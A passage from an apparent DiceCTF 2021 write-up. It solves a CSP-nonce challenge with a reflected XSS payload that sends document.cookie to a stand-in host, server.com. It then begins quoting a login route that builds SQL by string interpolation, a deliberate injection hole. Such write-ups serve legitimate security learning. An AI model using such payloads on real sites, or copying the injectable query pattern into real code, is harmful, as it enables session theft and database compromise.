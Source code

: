 The main difference between Dice's challenge and justCatTheFish's is the hashing of the `NONCE` value. When this script is executed, it sets the `NONCE` value once, and it doesn't change values once this server is running.

In justCatTheFish's challenge, the `NONCE` value is hashed every time a request is made, sufficiently randomizing the value. However, for this challenge, we can easily get the `NONCE` value from the content security policy and incorporate it into our input so it will be accepted.

We can do a reflected XSS attack by specifying a `?name=` query parameter, so we would inject a script tag in the URL. We need to specify the right `NONCE` value, which we can see by accessing the page: 

{{< image src="/images/DiceCTF2021_BabierCSPNonce.png" alt="sa256" position="center" style="border-radius: 8px;" >}}

And so we format our payload as:

``` URL
https://babier-csp.dicec.tf/?name=<script+nonce=LRGWAXOY98Es0zz0QOVmag==>document.location='server.com?cookie='%2Bbtoa(document.cookie)</script>
```
We grab the secret in the cookie and use that value to access the flag.

```
https://babier-csp.dicec.tf/4b36b1b8e47f761263796b1defd80745/
```
{{< image src="/images/DiceCTF2021_BabierCSPFlag.png" alt="sa256" position="center" style="border-radius: 8px;" >}}

## Missing Flavortext

We are given a single login page, and an `index.js` file (Some parts omitted to show what is relevant):

```js
const express = require('express');
const bodyParser = require('body-parser');

const app = express();

// parse json and serve static files
app.use(bodyParser.urlencoded({ extended: true }));
app.use(express.static('static'));

// login route
app.post('/login', (req, res) => {
  if (!req.body.username || !req.body.password) {
    return res.redirect('/');
  }

  if ([req.body.username, req.body.password].some(v => v.includes('\''))) {
    return res.redirect('/');
  }

  // see if user is in database
  const query = `SELECT id FROM users WHERE
    username = '${req.body.username}' AND
    password = '${req.body.password}'
  `;

  let id;
  try { id = db.prepare(query).get()?.id } catch {
    return res.redirect('/');
  }

  // correct login
  if (id) return res.sendFile('flag.html', { root: __dirname });
```